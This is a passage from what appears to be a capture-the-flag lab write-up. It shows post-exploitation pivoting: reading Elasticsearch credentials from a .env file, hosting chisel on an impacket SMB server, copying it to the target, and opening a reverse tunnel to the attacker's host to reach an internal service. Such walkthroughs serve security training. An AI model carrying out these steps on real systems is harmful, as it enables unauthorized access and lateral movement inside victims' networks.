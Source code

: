 And in `.env` we find user and password for Elasticsearch running on localhost port 9200. 

```shell
c:\Temp\www\internal\content\posts\internal-laps-alpha>type .env
ELASTICUSER=user
ELASTICPASS=DumpPassword\$Here
ELASTICURI=https://127.0.0.1:9200
```

### Elasticsearch

To connect to Elastic that runs on localhost we first need setup a tunnel. And we will do that using chisel.

First we need to upload chisel to the target machine and we will do that setting up a local SMB server to host the package. Chisel packages can be downloaded here [https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)

Starting the local SMB server.

```shell
labadmin@labmachine:~/napper$ impacket-smbserver share . -smb2support -username duser -password dpassword
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the target machine, map the SMB server.

```shell
c:\ProgramData>net use \\10.10.14.25\share /u:duser dpassword
The command completed successfully.
```

Next we copy the package to the target machine.

```shell
c:\ProgramData>copy \\10.10.14.25\share\chisel_1.9.1_windows_amd64 chisel.exe
        1 file(s) copied.
```

Now we start the chisel server locally.

```shell
labadmin@labmachine:~/napper$ ./chisel_1.9.1_linux_amd64 server -p 8100 --reverse
2024/05/16 06:49:27 server: Reverse tunnelling enabled
2024/05/16 06:49:27 server: Fingerprint hSY4fSNjYnAlWUtOvtf5JOMR9ycohW+VYvcHsKQWE/0=
2024/05/16 06:49:27 server: Listening on http://0.0.0.0:8100
```

And then use the chisel client on target machine to connect to local chisel server.

```shell
c:\ProgramData>.\chisel.exe client 10.10.14.25:8100 R:9200:127.0.0.1:9200
```
